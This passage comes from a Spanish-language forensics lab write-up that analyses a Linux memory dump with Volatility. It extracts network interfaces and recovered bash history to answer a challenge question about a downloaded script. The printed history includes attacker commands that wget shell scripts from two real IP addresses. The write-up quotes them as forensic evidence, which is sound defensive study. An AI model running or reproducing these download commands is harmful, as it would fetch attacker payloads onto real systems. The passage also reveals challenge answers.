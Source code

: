 Ahora ya podemos obtener las direcciones MAC: 

```bash
┌──(venv)─(kali㉿kali)-[~/blue-labs/volatility]
└─$ python2 vol.py -f /home/kali/blue-labs/azurepot/temp_extract_dir/memoria/ubuntu.20211208.mem --profile=LinuxUbuntu-azurex64 linux_ifconfig
Volatility Foundation Volatility Framework 2.6.1
Interface        IP Address           MAC Address        Promiscous Mode
---------------- -------------------- ------------------ ---------------
lo               127.0.0.1            00:00:00:00:00:00  False
eth0             10.0.0.4             00:22:48:26:3b:16  False
```

---
<h3 style="color: #0d6efd;">Q15 Del historial de Bash. El atacante descargó un script sh. ¿Cuál es el nombre del archivo?</h3>

Para esto usamos el plugin `linux_bash` y aplicamos un grep sencillo:

```bash
┌──(venv)─(kali㉿kali)-[~/blue-labs/volatility]
└─$ grep -E 'curl|wget.*\.sh' linux_bash
    4205 bash                 2021-12-08 16:12:31 UTC+0000   cat error_log | egrep "curl|wget"
    4205 bash                 2021-12-08 16:12:31 UTC+0000   cat error_log | egrep "curl|wget"  | grep -v Agent
    4205 bash                 2021-12-08 16:12:31 UTC+0000   cat error_log | egrep "curl|wget" | perl -ne 's/.*data\-HEAP\)\: (.*)/$1/g; print;'
    4205 bash                 2021-12-08 16:12:31 UTC+0000   cat wget.sh
    4205 bash                 2021-12-08 16:12:31 UTC+0000   cat error_log | egrep "curl|wget"
    4205 bash                 2021-12-08 16:12:31 UTC+0000   egrep -i "curl|wget" error_log
    4205 bash                 2021-12-08 16:12:31 UTC+0000   rm wget.sh
    4205 bash                 2021-12-08 16:12:31 UTC+0000   wget http://88.218.227.141/wget.sh
    4205 bash                 2021-12-08 16:12:31 UTC+0000   cat error_log | egrep "curl|wget"  | grep -v Agent
    4205 bash                 2021-12-08 16:12:31 UTC+0000   cat error_log | egrep "curl|wget" | perl -ne 's/.*data\-HEAP...(.*)/$2/g; print;'
    4205 bash                 2021-12-08 16:12:31 UTC+0000   cat error_log | egrep "curl|wget" | perl -ne 's/.*/data\-HEAP...(.*)/2/g; print;'
    4205 bash                 2021-12-08 16:12:31 UTC+0000   cat error_log | egrep "curl|wget" | perl -ne 's/.*data\-HEAP...(.*)/2/g; print;'
    4205 bash                 2021-12-08 16:12:31 UTC+0000   cat error_log | egrep "curl|wget" | perl -ne 's/.*data\-HEAP\)\: (.*)/$2/g; print;'
    4205 bash                 2021-12-08 16:12:31 UTC+0000   wget http://185.191.32.198/unk.sh
    9331 bash                 2021-12-08 16:18:01 UTC+0000   grep curl error_log
    9331 bash                 2021-12-08 16:18:01 UTC+0000   grep curl error_log  | grep ".sh
    9331 bash                 2021-12-08 16:18:01 UTC+0000   grep curl error_log  | grep ".sh"
    9331 bash                 2021-12-08 16:18:01 UTC+0000   grep curl error_log  | grep "\.sh"
```

Podemos ver el script y la ip desde donde se descargó. 

El método para obtener el perfil es muy útil, pero puede haber escenarios en los que no funcione: 

En principio la técnica de “compilar un módulo con `CONFIG_DEBUG_INFO` + extraer DWARF + empaquetar con el `System.map`” es **generalizable** a cualquier volcado de Linux, siempre que cumplas estas condiciones:
